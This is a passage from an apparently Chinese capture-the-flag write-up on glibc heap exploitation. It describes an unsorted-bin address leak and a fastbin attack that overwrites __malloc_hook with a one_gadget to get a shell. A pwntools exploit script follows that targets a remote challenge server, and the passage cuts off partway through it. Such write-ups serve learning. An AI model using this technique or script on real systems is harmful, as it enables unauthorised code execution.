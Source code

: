 - 然后通过切割UB, 使得UB的fd bk指针写入到H1内部, 如下图
- 然后show(3)即可泄露地址
[![](https://p2.ssl.qhimg.com/t01470fc476dccb0a32.png)](https://p2.ssl.qhimg.com/t01470fc476dccb0a32.png)

### <a class="reference-link" name="getshell"></a>getshell
<li>有了地址之后getshell就很容易了
<ul>
- 再N1 B1 H1后面通过布局0x70的chunk, 然后free掉, 进入Fastbin[0x70]
- 然后继续切割chunk, 修改fastbin chunk的fd为__malloc_hook-0x23, 利用0x7F伪造size
- 然后修改__malloc_hook为OGG
### <a class="reference-link" name="EXP"></a>EXP

```
#! /usr/bin/python
# coding=utf-8
import sys
from pwn import *
from random import randint

context.log_level = 'debug'
context(arch='amd64', os='linux')

elf_path = "./pwn"

elf = ELF(elf_path)
libc = ELF('libc.so.6')

def Log(name):    
    log.success(name+' = '+hex(eval(name)))

if(len(sys.argv)==1):            #local
    cmd = [elf_path]
    sh = process(cmd)
    #proc_base = sh.libs()['/home/parallels/pwn']
else:                            #remtoe
    sh = remote('118.190.62.234', 12435)

def Num(n):
    sh.sendline(str(n))

def Cmd(n):
    sh.recvuntil('&gt;&gt;')
    Num(n)

def Name(idx, name):
    Cmd(1)
    sh.recvuntil('idx:')
    Num(idx)
    sh.recvuntil('len:')
    Num(len(name))
    sh.sendline(name)

def Show(idx):
    Cmd(2)
    sh.recvuntil('idx:')
    Num(idx)

def Delete(idx):
    Cmd(3)
    sh.recvuntil('idx:')
    Num(idx)

```
